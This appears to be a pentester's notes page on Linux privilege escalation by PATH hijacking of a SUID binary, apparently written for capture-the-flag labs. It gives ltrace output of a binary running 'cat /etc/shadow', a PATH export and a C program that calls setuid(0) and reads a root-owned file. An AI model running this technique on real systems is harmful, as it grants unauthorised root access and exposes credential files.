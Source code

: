 # Unsanitized Path
#unsanitizedpath 

Attention:
if `sudo -l` includes `env_reset`, this can't be used.

1. Search for suid binaries (see [[Security/Offensive/Linux/LPE]])
2. Check if binary calls other binaries without full path via `ltrace` and `strace`
```
XXXXXXXXXX:~$ ltrace ./backup 
__libc_start_main(0x804841d, 1, 0xbffff7d4, 0x8048440 <unfinished ...>
system("cat /etc/shadow"cat: /etc/shadow: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
```
3.  Add local path (`pwd`) to the start of the the `$PATH` var
`export PATH=<pwd-output>:$PATH`
5.  Place a evil bin with the name of the unsanitized bin in the current folder, for example:
demo.c:
```
#include<unistd.h>
void main(){
        setuid(0);
        setgid(0);
        system("more /root/root.txt");
}
```
`gcc demo.c -o <name-of-evil-bin>`
But any executable file can be used.
6. Run the vulnerable binary
7. `$$$`

DOES NOT WORK WITH METERPRETER SHELL! Use SSH...


## sudo
For sudo, make sure that you can pass the environment. Then you can do it like:
```
sudo "PATH=$PATH" make install
```
